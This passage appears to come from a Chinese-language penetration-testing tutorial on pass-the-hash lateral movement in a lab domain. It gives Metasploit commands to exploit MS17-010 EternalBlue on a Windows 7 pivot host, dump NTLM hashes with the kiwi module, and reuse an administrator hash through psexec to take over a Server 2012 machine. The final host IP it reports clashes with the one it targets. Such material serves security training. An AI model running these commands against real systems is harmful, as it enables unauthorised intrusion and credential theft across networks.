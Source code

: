 

#### 2）使用Metasploit进行PTH

**a、先利用漏洞拿到跳板机控制权**

这里由于目标机器是Windows7，直接利用永恒之蓝进行攻击。

```bash
 search ms17-010
 use  exploit/windows/smb/ms17_010_eternalblue
 set rhosts 192.168.52.103
 exploit
```

**b、获取跳板机Hash**

拿到跳板机权限后，在meterpreter中利用kiwi模块获取跳板机器的Hash，相关的配置：

```shell
meterpreter > load  kiwi
meterpreter > creds_msv
```

攻击成功，得到跳板机账号HASH。

![image-20220815211009677](assets/image-20220815211009677.png)



**c、使用psexec进行PTH攻击**

新开msfconsole，执行以下命令，可拿到Server 2012主机权限

```shell
use exploit/windows/smb/psexec
set rhosts 192.168.52.126
set smbuser administrator
# 完整的Administrator用户的Hash
set smbpass 00000000000000000000000000000000:1909ef3ef90ddc79af551ac8a39ba4de  
set smbdomain secknow.com
run
```

成功后拿到主机192.168.20.126的控制权。
